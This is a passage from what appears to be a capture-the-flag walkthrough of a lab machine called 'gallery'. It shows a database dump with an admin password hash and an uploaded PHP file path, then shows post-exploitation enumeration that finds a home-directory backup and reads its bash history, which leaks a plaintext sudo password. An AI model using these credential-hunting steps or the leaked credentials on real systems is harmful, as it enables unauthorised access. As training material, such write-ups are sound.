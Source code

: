   Database changed
  MariaDB [gallery_db]> select * from users;
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  | id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  |  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1748544660_TagoudsyojxfxwbamjaLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2025-05-29 18:51:54 |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  1 row in set (0.00 sec)
  ```
  
- Well, now I spent a lot of time enumerating different stuff, and hint says `Mike's mistake...`. So, at one point I searched for all the files that have `mike` in their name and BINGO!

  ```
  www-data@gallery:/dev/shm$ find / -name *mike* 2>/dev/null
  /home/mike
  /var/backups/mike_home_backup
  
  www-data@gallery:/var/backups$ ls -al
  total 60
  drwxr-xr-x  3 root root  4096 May 29 18:19 .
  drwxr-xr-x 13 root root  4096 May 20  2021 ..
  -rw-r--r--  1 root root 34789 Feb 12  2022 apt.extended_states.0
  -rw-r--r--  1 root root  3748 Aug 25  2021 apt.extended_states.1.gz
  -rw-r--r--  1 root root  3516 May 21  2021 apt.extended_states.2.gz
  -rw-r--r--  1 root root  3575 May 20  2021 apt.extended_states.3.gz
  drwxr-xr-x  5 root root  4096 May 24  2021 mike_home_backup

  www-data@gallery:/var/backups$ cd mike_home_backup/
  www-data@gallery:/var/backups/mike_home_backup$ ls -al
  total 36
  drwxr-xr-x 5 root root 4096 May 24  2021 .
  drwxr-xr-x 3 root root 4096 May 29 18:19 ..
  -rwxr-xr-x 1 root root  135 May 24  2021 .bash_history
  -rwxr-xr-x 1 root root  220 May 24  2021 .bash_logout
  -rwxr-xr-x 1 root root 3772 May 24  2021 .bashrc
  drwxr-xr-x 3 root root 4096 May 24  2021 .gnupg
  -rwxr-xr-x 1 root root  807 May 24  2021 .profile
  drwxr-xr-x 2 root root 4096 May 24  2021 documents
  drwxr-xr-x 2 root root 4096 May 24  2021 images
  ```

- Here's the thing, we couldn't read `.bash_history` in Mike's home directory but here we can hihihi.

  ```
  www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history 
  cd ~
  ls
  ping 1.1.1.1
  cat /home/mike/user.txt
  cd /var/www/
  ls
  cd html
  ls -al
  cat index.html
  sudo -lb3stpassw0rdbr0xx
  clear
  sudo -l
  exit
  [SNIP!]
